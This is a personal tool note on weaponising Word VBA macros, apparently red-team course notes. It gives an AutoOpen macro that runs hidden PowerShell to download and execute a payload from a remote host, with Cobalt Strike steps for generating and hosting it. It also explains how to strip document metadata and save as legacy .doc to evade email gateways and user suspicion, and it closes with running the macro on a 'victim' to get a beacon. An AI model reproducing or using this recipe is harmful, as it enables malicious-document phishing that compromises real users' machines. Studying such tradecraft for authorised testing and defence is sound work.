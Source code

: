 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #🧰
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #🧰  

# [[VBA Macro]]  
___

## Description:
VBA is an implementation of Visual Basic that is very widely used with Microsoft Office applications - often used to enhance or augment functionality in Word and Excel for data processing etc.

## Installation
You can create a macro in a Word document by going to **View > Macros > Create**.  Change the "Macros in" field from "All active templates and documents" to "Document 1". Give the macro a name and click **Create**.

``` 

Sub AutoOpen()

  Dim Shell As Object
  Set Shell = CreateObject("wscript.shell")
  Shell.Run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"

End Sub

```


In Cobalt Strike, go to **Attacks > Web Drive-by > Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener. The URI path can be anything, Type should be powershell. Copy and paste into your VBA (remember to add double quotes around command).


To prepare the document for delivery, go to **File > Info > Inspect Document > Inspect Document**, which will bring up the Document Inspector. Click **Inspect** and then **Remove All** next to **Document Properties and Personal Information**. This is to prevent the username on your system being embedded in the document.


Next, go to **File > Save As** and browse to **C:\Payloads**. Give it any filename, but in the **Save as type** dropdown, change the format from **_.docx_** to **Word 97-2003 (.doc)**. We do this because you can't save macro's inside a `.docx` and there's a stigma around the macro-enabled `.docm` extension (e.g. the thumbnail icon has a huge `!` and some web/email gateway block them entirely). I find that this legacy `.doc` extension is the best compromise.


When an Office document with an embedded macro is opened for the first time, the user is presented with a security warning (assuming the environment isn't locked down to block macro's entirely). For the macro to execute, the user _must_ click on **Enable Content**.


## Commands

host the HTA on the Team Server so we can simply send a link for them to download and execute. Go to **Attacks > Web drive-by > Host File**. Select **demo.doc** and provide a URI to access it on. 



Run the macro on the victum machine to get a beacon.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (03:33 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

